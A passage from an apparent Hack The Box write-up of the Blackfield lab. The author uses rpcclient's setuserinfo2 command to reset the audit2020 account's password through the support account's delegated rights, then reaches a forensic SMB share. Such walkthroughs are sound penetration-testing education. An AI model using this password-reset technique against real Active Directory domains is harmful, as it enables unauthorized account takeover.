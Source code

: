 ```text
The user SUPPORT@BLACKFIELD.LOCAL has the capability to change the user AUDIT2020@BLACKFIELD.LOCAL's password without knowing that user's current password.
```

There are a couple ways to go about this (I'd usually user PowerView, or just do it natively in Windows), but because we don't really have access to the box just yet, we'll need to use rpcclient.

I can do this using:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ rpcclient -U support 10.10.10.192 
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 'Password4321'
rpcclient $>
```

(just like the doctor's office: no news is good news with rpcclient. The fact there was no response indicates this worked)

Lets see if we can access any SMB shares with audit2020:Password4321

![cme3.png](../assets/blackfield_assets/cme3.png)

Nice! We now have access to that `forensic` share. Lets check that out.

![forensic.png](../assets/blackfield_assets/forensic.png)
